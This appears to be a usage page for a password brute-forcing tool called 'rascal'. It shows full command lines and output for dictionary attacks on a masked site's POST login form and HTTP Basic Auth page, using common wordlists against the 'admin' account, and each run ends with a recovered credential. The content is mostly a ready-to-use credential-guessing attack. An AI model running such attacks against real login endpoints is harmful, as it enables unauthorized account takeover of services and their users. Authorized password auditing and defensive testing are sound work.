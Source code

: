 ### POST

    C:\tools\> .\rascal.exe --post -u https://***.com/123123/login.php -w C:\tools\xato-10k.txt --username admin --username_field user_id --password_field passwd --success_text OK

        -- SETTINGS VERIFICATION --
        scheme: https
        url: https://***.com/123123/login.php
        username: admin
        password list: C:\tools\xato-10k.txt
        username post form field: user_id
        password post form field: passwd
        success message: OK
        failure message: None

    Does this look OK? (Y/n)
    Prepared wordlist in memory with 10000 entries.
    [+] admin:1999

---

### Basic Authentication

    $ python3 rascal.py --basic -u http://***.com/123123/321 -w /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt --username admin --failure_text 'Restricted Content'
    
            -- SETTINGS VERIFICATION --
            scheme: http
            url: http://***.com/123123/321
            username: admin
            password list: /usr/share/wordlists/seclists/Passwords/xato-net-10-million-passwords-1000.txt
            success message: None
            failure message: Restricted Content
            custom user agent: None
            
    Does this look OK? (Y/n) 
    Prepared wordlist in memory with 1000 entries.
    
        ##########
        Sample from response headers.
        I.e., Build your failure string from header details:
        Basic realm="Restricted Content"
        ##########
        
    [+] admin:12345